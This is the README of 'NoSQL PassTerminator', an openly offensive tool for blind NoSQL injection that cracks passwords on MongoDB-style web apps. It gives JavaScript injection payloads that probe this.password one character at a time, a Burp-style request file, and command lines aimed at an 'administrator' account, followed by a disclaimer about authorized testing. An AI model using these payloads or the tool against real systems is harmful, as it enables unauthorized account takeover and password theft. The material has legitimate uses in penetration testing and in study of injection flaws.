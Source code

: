 # 🔐 NoSQL PassTerminator

*Automated Blind NoSQL Injection Password Cracker*
By **0xTensai**

---

### 📌 Description

**NoSQL PassTerminator** is a blind injection tool designed to extract passwords from NoSQL-based web apps (typically MongoDB-style injections). It automates the detection of password length and performs character-by-character guessing using time-efficient multithreading.

---

### 🧪 Injection Strategy

It uses JavaScript-based injection such as:

```javascript
' && this.password[0] == 'a' || 'a'=='b
```

---

### ✅ Features

* 🔍 Blind password length detection
* 🧠 Smart multithreaded brute-force logic
* 📦 Takes raw HTTP request files (Burp-style)
* 🎯 Fail-string or raw response comparison modes
* 🧾 Save cracked passwords to file
* 🔡 Custom charset and casing options

---

### ⚙️ Requirements

* Python 3.x
* `requests`
  Install with:

```bash
pip install requests
```

---

### 🚀 Usage

```bash
python3 nosql.py -r request.req -p user -n administrator -f "user not found"
```

Or with response comparison:

```bash
python3 nosql.py -r request.req -p user -n administrator --compare-mode
```

---

### 🧾 Arguments

| Flag                  | Description                                                                 |
| --------------------- | --------------------------------------------------------------------------- |
| `-r`, `--request`     | Path to raw HTTP request file (Burp format)                                 |
| `-p`, `--param`       | Name of the POST parameter to inject (e.g., `user`)                         |
| `-n`, `--username`    | Username value to attack (e.g., `administrator`)                            |
| `-f`, `--fail-string` | Failure message shown on incorrect guess (not needed with `--compare-mode`) |
| `--compare-mode`      | Use response difference instead of fail-string                              |
| `--max-length`        | Max password length to try (default: `30`)                                  |
| `-o`, `--output`      | Save cracked password to a file                                             |

---

### 💡 Charset Selection (Interactive Prompt)

During execution, you will be prompted to choose:

**Character set:**

* `1` → Alphabets only
* `2` → Alphabets + Numbers
* `3` → Alphabets + Numbers + Special Characters

**Casing:**

* `1` → Lowercase
* `2` → Uppercase
* `3` → Both

---

### 🔍 Sample Injection Payload

```http
user=admin' && this.password[2] == 'm' || 'a'=='b
```

---

### 📥 Example `.req` File Format

```http
POST /user/lookup HTTP/1.1
Host: vulnerable.site
Content-Type: application/x-www-form-urlencoded
Cookie: session=abc123

user=admin
```

---

### ✅ Example Run

```bash
python3 nosql.py -r login.req -p user -n administrator -f "user not found"
```

---

### ⚠️ Disclaimer

This tool is for **educational purposes** and **authorized testing only**.
Do **not** use it on targets you do not own or have permission to assess.

---

### 👨‍💻 Author

**🧠 0xTensai** — Offensive security, automation, and tool development.
